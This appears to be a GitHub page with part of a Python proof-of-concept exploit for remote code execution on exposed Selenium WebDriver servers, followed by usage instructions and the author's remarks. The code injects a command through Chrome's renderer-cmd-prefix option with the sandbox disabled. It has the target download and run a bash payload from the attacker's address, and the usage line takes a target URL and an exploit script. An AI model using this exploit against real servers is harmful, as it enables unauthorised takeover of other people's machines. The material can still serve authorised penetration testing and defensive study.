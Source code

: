```python
    print("executed")
    driver.quit()

def renderer_attack(payload):
    # This method attempts to use renderer-cmd-prefix to perform command injection
    # For some reason this is the most reliable method
    chrome_options = webdriver.ChromeOptions()
    chrome_options.add_argument("--no-sandbox")
    chrome_options.add_argument("--renderer-cmd-prefix="+payload)
    driver = webdriver.Remote(command_executor=vic_full, desired_capabilities=DesiredCapabilities.CHROME, options=chrome_options)
    print("This will not be reached")
    driver.get("http://google.com")
    print("executed")
    driver.quit()

def exploit():
    # Execute our payload
    start_timer(10)
    try:
        renderer_attack(f"bash {full_exploit}")
    except Exception:
        pass
    print("Ding! Check your exploit :)")

def main():
    thread_it()
    time.sleep(5)
    print("starting download")
    selenium_dl_payload()
    print("starting exploit")
    exploit()

#if __name__ == '__main__':
#    main()
```

# Basic RCE Usage

```shell
python3 -i selenium-poc.py -u <target-url> -p <target-port> -w <your-address> -e <bash-exploit-script>
main()
```

First of all, much of this script is stolen from a publicly available exploit by another author. This original script however did not work correctly when targetting linux hosts in practice, so I expanded upon it until it did. I have added in multiple methods that I attempted to use to get this exploit working on linux targets and defined the webdriver as a global, which is very important if anything goes wrong during exploitation. The addtional exploit methods should come in handy to anyone stuck in a similar situation in the future.
